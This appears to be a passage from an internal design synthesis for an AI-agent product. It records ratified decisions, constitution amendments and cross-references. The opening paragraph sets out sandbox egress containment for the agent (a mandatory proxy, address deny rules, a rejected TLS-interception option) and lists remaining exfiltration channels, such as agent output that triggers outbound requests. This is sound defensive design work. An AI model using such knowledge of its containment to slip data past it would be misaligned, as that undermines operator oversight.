**RATIFIED 2026-08-03 as `plan.md` OD-12, and this section's status line changes twice over: the mitigation is no longer discretionary *and* no longer only a network policy.** Two paragraphs above, the correct status was recorded as *an obligation already on the books, unrecorded as owed*. It is now **an obligation, recorded, decided, and specified** — the constitution's own wording was amended the same day (**OD-13**, `.specify/memory/constitution.md` v1.2.0) to carry the four terms this section had to spell out because the text did not. **What the ratification adds beyond the draft is the enforcement point.** All sandbox egress traverses **one mandatory proxy** enforcing destination and method together, which matters here for a reason this section has been circling: the incoherence C-17 named — the ladder either denies every shell command or controls no egress — is dissolved rather than decided, because the proxy sees a shell-originated request and a runtime-originated one identically. **So the shell this section is centrally worried about stays**, OD-07's general fallback path is intact, and its network reach is the enumerated set above rather than the open internet. **One assumption was tested before this was written down, and it is this section's own failure mode applied to the remedy:** a proxy sees a *method* only if TLS terminates there, and a CONNECT-level proxy against an HTTPS target would enforce destination while appearing to enforce method. **TLS interception is feasible and is rejected for v1** — a proxy CA inside the sandbox concentrates impersonation of every host into one key, and it forces a certificate pin onto exactly the self-hosted, private-CA targets OD-08 aims at — in favour of re-origination from a cleartext proxy endpoint, which is available only because v1 has one destination and owns the base-URL string handed to the agent. **Nothing in the four surviving channels above is retracted.** ① is U-44 and is unmeasured. ② gains a cheap, wholly-ours mitigation — agent output is never rendered in a way that issues outbound requests. ③ and ④ stand, with ④ now a D-15 configuration review object. **The defensible customer statement in the paragraph above is unchanged word for word**, and the reason to say so explicitly is that a decided mechanism is the moment a *blast-radius limitation* claim is most likely to be quietly upgraded to a *prevention* one.

### 7.7 What would *not* make us wrong

Worth naming, so these do not get used as arguments: the fact that tool generation is commoditized (that was never the product); the fact that MCP keeps breaking (dual-era support is a known cost, roughly a year); ~~the fact that ADK is churning (pin and adapt)~~ — **struck 2026-08-03: `plan.md` OD-15 drops ADK, so churn is not an argument anybody can make either way and U-12 closes for v1. It stays visible because it was correctly declined as a reason, and the decision was ultimately taken on other grounds entirely**; and the fact that no controlled loop-vs-graph study exists (nobody else has one either, and D-10 is cheap to revise).

**Two additions 2026-08-02, and they are the arguments most likely to be made now that OD-09 has landed** (D-21). **"The product got ten times smaller, therefore the thesis failed."** No: the pre-registered response to a pre-registered condition is the plan working, not the plan collapsing, and the cost result — ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× within session** wherever a tool fits *(narrowed 2026-08-03; §3.1 OWNER FLAG)* — replicated in every family and is a real finding that v2 inherits with a number attached. **"The differentiators that survived were ranked third and fourth of four, so v1 is the leftovers."** That ranking was an *argument*, made before anything was measured; of the four, the two that survived are the two with measurements behind them, and the two that left are the two whose experiments never ran (P-04, P-06). **What *would* make us wrong is unchanged and is now concentrated in three places**: §7.2's commoditization argument applied to a verifier rather than to a synthesizer; U-43, because a write story resting on an unmeasured crude classifier is the pivot's own new exposure; and U-42, because the re-scope rests on one calibrated family at n = 4.

---

## 8. Cross-references

Source documents, with the sections this synthesis leans on most.

| Doc | Sections drawn on |
|---|---|
| [01 — Agent anatomy](./01-agent-anatomy.md) | §5.2 tool ceilings · §5.6 MCP as export · §7 multi-agent economics and MAST · §8 lethal trifecta, Codex Auto-review · §9.3 benchmark unreliability |
| [02 — Agent harnesses](./02-agent-harnesses.md) | §2 the prompts-and-tokens test · §3 SDK survey and budget enforcement · §2.4 Temporal token-accounting loss (restated as a failure mode in §4) · §7 uncertainty register |
| [03 — Graph and loop architecture](./03-graph-and-loop-architecture.md) | §5 topology as enforcement, IR requirements · §10 LangGraph super-step checkpointing · §12 open questions |
| [04 — Self-improving agents](./04-self-improving-agents.md) | §2 self-critique degradation · §3 judge anti-correlation · §9 memory as attack surface |
| [05 — Frontier lab agent definitions](./05-frontier-lab-agent-definitions.md) | opaque continuation state · §4.3 two-tier provider abstraction and routing economics · §6 benchmark caveats |
| [06 — Examples inventory](./06-examples-inventory.md) | §2 `codegraph` · §3 ADK + Claude SDK pairing and its costs · §4 unverified LiteLLM support · gaps G1–G5 |
| [07 — Product vision](./07-product-vision.md) | §3.1 decomposition axis · §3.2 trust-boundary synthesis · §3.4 the two-product split · §5 Q1–Q8 · §8 commoditization |
| [08 — Auth, identity, secrets](./08-auth-identity-and-secrets.md) | §1–2 two planes · §3.4 `authorization: UNRESOLVED` · §5 redaction seam · §7 iframe tier · §9 open questions |
| [09 — MCP as tool surface](./09-mcp-as-tool-surface.md) | §1 wire-format churn · §3 effect metadata gap · §5 FastMCP author's warning and the white space |
| [10 — Topology in practice](./10-topology-in-practice.md) | §2 dynamic workflows · §4 ADK graph verification and cycle rejection · §5 Cursor/Temporal · §12–13 the refined trigger · §14 self-criticism |
| [11 — Validation plan](./11-validation-plan.md) | §4 arms and controls · §5 Phase 0 · §8 kill criteria · §10 open dependencies |
| [12 — Examples as corpus](./12-examples-as-corpus.md) | §3.2 `adk-python` as Class B target · §4.2 language distribution · Phases 0–5 · §10 unverified claims |
| [13 — Claude Managed Agents](./13-claude-managed-agents.md) | §3 coverage matrix · §5 platform and network disqualifiers · §7 recommendation · §8 open questions |

**Skills that encode positions taken here:** `agent-tool-design`, `context-engineering`, `contract-derived-verification`, `graph-vs-loop-decision`, `multi-agent-topology-review`, `provider-abstraction`, `research-doc-conventions`.

**Process:** Spec Kit, constitution ~~v1.0.0~~ ~~v1.1.0~~ ~~v1.2.0~~ **v1.3.0** at `.specify/memory/constitution.md` — amended 2026-08-02 by `plan.md` OD-03, which added the derived-verifier validation requirement to Principle I and made D-17 enforceable; again 2026-08-03 by `plan.md` **OD-13**, which replaced Principle IV bullet 1's *"network allowlisted to named hosts"* with a four-term specification (pinned addresses, host *and* port, DNS denied or proxied, loopback / RFC 1918 / link-local / metadata denied even on an allowlisted host); and once more 2026-08-03 by `plan.md` **OD-22**, which restated Principle VI over a **traced unit** whose kind the shipping tier declares — the node for an emitted agent system, the span for a runtime executing a loop — and bound its ship gate to that unit rather than to *a versioned node*. All three are MINOR bumps, owner-approved, with an empty migration plan because nothing has been emitted. **The first two are the same reasoning — materially expanded guidance inside an existing NON-NEGOTIABLE principle. The third differs and is flagged rather than folded in:** Principle VI is not NON-NEGOTIABLE, and the amendment gives a previously unsatisfiable unscoped `MUST NOT` a subject, so it relaxes in one direction while adding three obligations (a closed declared unit set, tracing at the finest costed unit, and unit identity separated from artifact version). Per D-03, `/speckit-specify` runs **after** Phase 0, not before.
